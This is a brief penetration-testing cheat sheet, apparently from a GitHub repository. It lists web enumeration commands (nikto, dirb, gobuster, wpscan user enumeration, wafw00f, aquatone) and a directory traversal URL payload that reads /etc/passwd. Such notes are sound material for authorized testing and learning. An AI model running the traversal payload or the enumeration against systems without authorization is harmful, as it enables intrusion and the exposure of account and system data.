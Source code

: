 ## HTTP/HTTPS Pen Testing

### Enumeration
```
nikto -host thedomain.com

dirb http://10.11.1.140

gobuster dir -u http://192.168.124.52 -w /usr/share/dirb/wordlists/common.txt -k -x .txt,.php --threads 50
```
---

### To add IP's to your host file
Add the following to the hosts file `10.11.1.140 domainname.com`

Linux is `/etc/hosts`

Windows is `C:\windows\system32\drivers\etc\hosts`

---

### Directory Traversal Vulnerability
```
# To attempt to view the /etc/passwd file
http://host/index.php?page=./../../../../../etc/passwd%00
```
---

### Wordpress
```
# Enumerate users on wordpress site
wpscan targetsite.com --enumerate u
```
---
### Spidering with Burpsuite
```

```
---
### Check for web firewalls with wafw00f
```
wafw00f ip
```
---
### Check if domain exists with aquatone
```
apt install chromium
wget https://github.com/michenriksen/aquatone/releases/download/v1.7.0/aquatone_linux_amd64_1.7.0.zip
unzip aquatone_linux_amd64_1.7.0.zip
mv aquatone /usr/local/bin/

# Place all of your domains in a file called host
# aquatone will check if exists, and take screenshot
cat host | aquatone
```
